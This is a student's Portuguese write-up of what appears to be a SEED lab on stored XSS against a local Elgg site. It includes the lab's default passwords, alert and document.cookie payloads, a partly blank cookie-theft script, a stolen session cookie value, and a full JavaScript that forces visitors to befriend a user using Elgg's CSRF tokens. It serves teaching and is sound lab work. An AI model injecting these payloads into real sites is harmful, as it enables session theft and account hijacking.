







# Trabalho realizado na Semana #7

## Questão 1
### Configuração básica

- De forma a tornar este lab possível, temos de adicionar as entradas indicadas pelo guião, no ficheiro `/etc/hosts/`, utilizando o comando `nano`, por exemplo, a partir da root.

   

- Seguidamente, após o download do _zip_ deste lab, corremos os comandos `dcbuild` e `dcup` de forma a executarmos os containers de docker.

Desta forma, conseguimos ter acesso à pagina `www.seed-server.com`:



De forma a testarmos os ataques, também nos é fornecido os utilizadores e as suas respectivas _passwords_ desta webpage.

| UserName | Password    |
|----------|-------------|
| admin    | seedelgg    |
| alice    | seedalice   |
| boby     | seedboby    |
| charlie  | seedcharlie |
| samy     | seedsamy    |


### Tarefa 1 : Posting a Malicious Message to Display an Alert Window

- Como referido no título desta tarefa, o nosso objectivo é conseguirmos executar um script a mostrar uma mensagem maliciosa. Para isso, podemos inserir o seguinte código malicoso, `<script>alert('XSS');</script>`, num dos `forms` do nosso utilizador.



Neste caso inserimos o **script malicioso** no perfil da **alice**, na secção _brief description_, e realmente verificamos que para qualquer utilizador, esta mensagem será mostrada.


### Tarefa 2 :  Posting a Malicious Message to Display Cookies

- Tal como na task anterior,o nosso objectivo é mostrar uma mensagem, mas neste caso com as cookies do utilizador. Para tal, inserimos o script malicioso `<script>alert(document.cookie);</script>`, num dos `forms` do nosso utilizador.




Da mesmo maneira que demos _display_ da mensagem `XSS`, agora aparecem as cookies do utilizador _logado_ ao aceder ao perfil da alice.


### Tarefa 3: Stealing Cookies from the Victim’s Machine

- Nesta _task_, o nosso objectivo é conseguir as cookies de outro utilizador através do _script_ que o guião nos fornece. Como tal, inserimos novamente o _script_ malicioso numa das secções do nosso _utilizador_ e esperamos que um dos outros _utilizadores_ aceda ao nosso perfil.

Código malicioso:
```html
<script>
document.write('');
</script>
```

Execução do ataque:



Como podemos verificar, conseguimos roubar as cookies do **boby**, sendo estas `3D9d15l2p41o2d4cn61u9a99j2qf`, através do acesso do perfil da **alice**.


### Tarefa 4: Becoming the Victim’s Friend

- De forma a concluirmos esta tarefa, é nos fornecido um script, ainda incompleto, com a intenção de sermos nós a procurar como podemos obter o _url_ do **HTTP request**  a ser enviado, após enviar um _friend request_ a um dos utilizadores.

- Para conseguirmos visualizar o _request_ a ser feito, utilizamos a ferramenta **HTTP Header Live** que nos indica qualquer request feito após uma ação do utilizador.

Neste caso, inspecionamos o _request_ feito após o envio de um pedido de amizade.

_URL_ Pedido de amizade:



Conseguimos obter o url `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog`.

Sendo assim, o nosso _URL_ do nosso script tem de ter um formato semelhante a esse.

Script utilizado:
```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.

    var friendId = "59"  // Id of the friend to add
    var sendurl= "http://www.seed-server.com/action/friends/add?friend=" + friendId + ts + token; 

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
Para saber o id do utilizador `samy`, apenas precisamos de inspecionar o perfil dele na lista de membros. 



Verificamos assim que o seu id é `59`.


Como tal, agora apenas precisamos de adicionar o script no perfil do `samy`, neste caso na secção `About Me`,  e qualquer utilizador que vá ao perfil dele ficará automaticamente amigo dele.


Demonstração do script:


Como podemos verificar, o utilizador `boby` fica amigo do `samy` mal entre no perfil dele, sem sequer adicioná-lo. 

- **Pergunta 1**: Explica o propósito das linhas ➀ e ➁, e o porquê de serem necessárias?

Estas linhas são necessárias, visto que, `token` refere-se ao token de segurança verdadeiro gerado pelo sistema, que garante a requesição legítima do request,sendo este único para cada sessão. Para além disso, `ts` refere-se ao momento em que o token foi gerado com o objectivo de confirmar que houve um _request_ recentemente. 
Sendo assim, para criar um request válido precisamos destas duas componentes no nosso _url_.

- **Pergunta 2**: Se a aplicação Elgg apenas fornecer o modo de Editor para o campo _About Me_, ou seja, se não for possível alternar para o modo de Texto, ainda seria possível lançar um ataque com sucesso? 

Muito dificilmente conseguiriamos um ataque bem sucedido, visto que, o mais provável é o modo de Editor "sanitizar" o conteúdo, de forma a impedir a injeção de scripts maliciosos.


## Questão 2

- **Há várias modalidades de ataques XSS (Reflected, Stored ou DOM). Em qual/quais pode enquadrar este ataque e porquê ?**

O ataque é `Stored XSS`, pois o script malicioso é armazenado no servidor (no campo do utilizador) e executado automaticamente quando a página do perfil dele é carregada. Não é `Reflected XSS`, pois o script não é refletido na resposta imediata do servidor, e não é `DOM-based XSS`, pois o código não é manipulado dinamicamente no DOM após a interação do utilizador.

